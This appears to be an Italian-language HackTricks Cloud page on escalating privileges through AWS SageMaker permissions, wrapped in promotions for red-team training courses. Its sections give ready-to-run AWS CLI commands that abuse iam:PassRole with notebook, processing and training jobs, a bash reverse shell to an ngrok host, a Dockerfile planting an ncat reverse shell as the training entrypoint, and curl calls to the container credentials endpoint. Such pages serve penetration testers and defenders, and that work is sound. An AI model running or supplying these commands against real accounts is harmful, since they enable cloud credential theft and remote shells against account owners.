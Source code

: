# AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Inizia a creare un notebook con il ruolo IAM ad esso associato:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
La risposta dovrebbe contenere un campo `NotebookInstanceArn`, che conterrà l'ARN della nuova istanza di notebook creata. Possiamo quindi utilizzare l'API `create-presigned-notebook-instance-url` per generare un URL che possiamo utilizzare per accedere all'istanza di notebook una volta che è pronta:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Naviga all'URL con il browser e clicca su \`Open JupyterLab\` in alto a destra, poi scorri verso il basso alla scheda “Launcher” e sotto la sezione “Other”, clicca sul pulsante “Terminal”.

Ora è possibile accedere alle credenziali dei metadati del ruolo IAM.

**Impatto Potenziale:** Privesc al ruolo di servizio sagemaker specificato.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Se ci sono **notebook Jupyter già in esecuzione** su di esso e puoi elencarli con `sagemaker:ListNotebookInstances` (o scoprirli in qualsiasi altro modo). Puoi **generare un URL per essi, accedervi e rubare le credenziali come indicato nella tecnica precedente**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Impatto Potenziale:** Privesc al ruolo di servizio sagemaker attaccato.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Un attaccante con tali permessi può far **eseguire a sagemaker un processingjob** con un ruolo sagemaker attaccato. L'attaccante può indicare la definizione del contenitore che verrà eseguito in un **istanza di account ECS gestita da AWS**, e **rubare le credenziali del ruolo IAM attaccato**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impatto Potenziale:** Privesc al ruolo di servizio sagemaker specificato.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Un attaccante con questi permessi sarà in grado di creare un lavoro di addestramento, **eseguendo un contenitore arbitrario** su di esso con un **ruolo allegato**. Pertanto, l'attaccante sarà in grado di rubare le credenziali del ruolo.

{% hint style="warning" %}
Questo scenario è più difficile da sfruttare rispetto al precedente perché è necessario generare un'immagine Docker che invierà la rev shell o le credenziali direttamente all'attaccante (non è possibile indicare un comando di avvio nella configurazione del lavoro di addestramento).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impatto Potenziale:** Privesc al ruolo di servizio sagemaker specificato.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Un attaccante con questi permessi sarà (potenzialmente) in grado di creare un **lavoro di addestramento degli iperparametri**, **eseguendo un contenitore arbitrario** su di esso con un **ruolo allegato**.\
_Non ho sfruttato a causa della mancanza di tempo, ma sembra simile agli exploit precedenti, sentiti libero di inviare una PR con i dettagli dello sfruttamento._

## Riferimenti

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
